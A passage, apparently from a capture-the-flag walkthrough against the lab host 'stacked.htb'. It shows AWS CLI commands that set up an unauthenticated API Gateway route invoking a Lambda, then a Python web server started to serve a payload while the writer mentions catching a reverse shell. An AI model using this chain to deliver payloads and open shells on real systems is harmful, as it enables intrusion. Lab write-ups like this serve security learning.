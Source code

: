 ```
    --region ${REGION} \
    --rest-api-id ${API_ID} \
    --parent-id ${PARENT_RESOURCE_ID} \
    --path-part "{somethingId}"


RESOURCE_ID=$(aws apigateway get-resources --endpoint=http://s3-testing.stacked.htb --endpoint=http://s3-testing.stacked.htb --rest-api-id ${API_ID} --query 'items[?path==`/{somethingId}`].id' --output text --region ${REGION})

aws apigateway put-method \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --rest-api-id ${API_ID} \
    --resource-id ${RESOURCE_ID} \
    --http-method GET \
    --request-parameters "method.request.path.somethingId=true" \
    --authorization-type "NONE" \


aws apigateway put-integration \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --rest-api-id ${API_ID} \
    --resource-id ${RESOURCE_ID} \
    --http-method GET \
    --type AWS_PROXY \
    --integration-http-method POST \
    --uri arn:aws:apigateway:${REGION}:lambda:path/2015-03-31/functions/${LAMBDA_ARN}/invocations \
    --passthrough-behavior WHEN_NO_MATCH \


aws apigateway create-deployment \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --rest-api-id ${API_ID} \
    --stage-name ${STAGE} \


ENDPOINT=http://s3-testing.stacked.htb/restapis/${API_ID}/${STAGE}/_user_request_/HowMuchIsTheFish

echo "API available at: ${ENDPOINT}"
echo "Testing GET:"
curl -i ${ENDPOINT}
```

Now all we need to do is stand up our webserver again to serve the payload and a listener to catch the reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
